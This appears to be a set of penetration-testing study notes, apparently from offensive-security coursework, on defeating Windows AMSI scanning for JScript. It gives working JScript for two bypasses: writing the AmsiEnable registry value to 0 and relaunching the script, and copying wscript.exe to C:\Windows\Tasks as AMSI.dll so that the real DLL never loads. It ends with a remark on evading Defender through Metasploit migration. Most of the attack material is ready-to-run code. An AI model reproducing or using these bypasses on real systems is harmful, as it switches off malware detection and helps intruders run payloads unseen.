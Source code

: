 # Detecting the AMSI API Flow

Test File
```javascript
WScript.Sleep(20000);

var WshShell = new ActiveXObject("WScript.Shell");
WshShell.Run("calc");
```

Run frida and investigate

#  Modify AmsiEnable registry key

JScript tries to query AmsiEnable registry key

If the key is equal to 0, AMSI won't start for the JScript process
#### Function in WScript
```csharp
JAmsi::JAmsiIsEnabledByRegistry
```

#### Disable Registry Key in JScript
```javascript
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\AmsiEnable";
sh.RegWrite(key, 0, "REG_DWORD");
```

#### Improved for registry key check
```javascript
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\AmsiEnable";

try {
	var AmsiEnable = sh.RegRead(key);
    if(AmsiEnable != 0) {
    		throw new Error(1, '');
    }
} catch(e) {
	sh.RegWrite(key, 0, "REG_DWORD");
    	sh.Run("cscript -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58} " + WScript.ScriptFullName, 0 ,1);
    	sh.RegWrite(key, 1, "REG_DWORD");
    	WScript.Quite(1);
}
```

# Tricking AMSI

While we cannot locate any of the structures to interact with the Win32 APIs from Jscript, we know that AMSI requires AMSI.DLL. If we could prevent AMSI.DLL from loading or load our own version of it, we could force the AMSI implementation in wscript.exe to produce an error and abort.

The second important thing to note is that double-clicking or running a file with a .dll extension will fail since DLLs are normally loaded, not executed. This behavior is actually caused by the Win32 ShellExecute415 API, which is used by cmd.exe. 

However, if we instead use the CreateProcess416 Win32 API, the file extension is ignored and the file header would be parsed to determine if it is a valid executable. We cannot directly call this API, but we can use the Exec417 method of the WScript.Shell object since it’s just a wrapper for it. 

Implementing this AMSI bypass requires a few new actions. When the Jscript is executed, it will copy wscript.exe to a writable and executable folder, naming it “amsi.dll”. Then, it will execute this copy while supplying the original Jscript file as in the previous bypass.

We check for the existence of AMSI.dll with try and catch statements to determine if the Jscript file is being executed for the first or the second time.

#### Rename and execute wscript.exe to amsi.dll
```javascript
var filesys = new ActiveXObject("Scripting.FileSystemObject");
var sh = new ActiveXObject('WScript.Shell');
try 
{
    if(filesys.FileExists("C:\\Windows\\Tasks\\AMSI.dll") == 0)
    {
        throw new Error(1, '');
    }
}
catch(e)
{
    filesys.CopyFile("C:\\Windows\\System32\\wscript.exe", "C:\\Windows\\Tasks\\AMSI.dll");
    sh.Exec("C:\\Windows\\Tasks\\AMSI.dll -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58} " + WScript.ScriptFullName);
    WScript.Quit();
}
```

Defender detects the malware but we can use metasploit to migrate immediately upon a new session

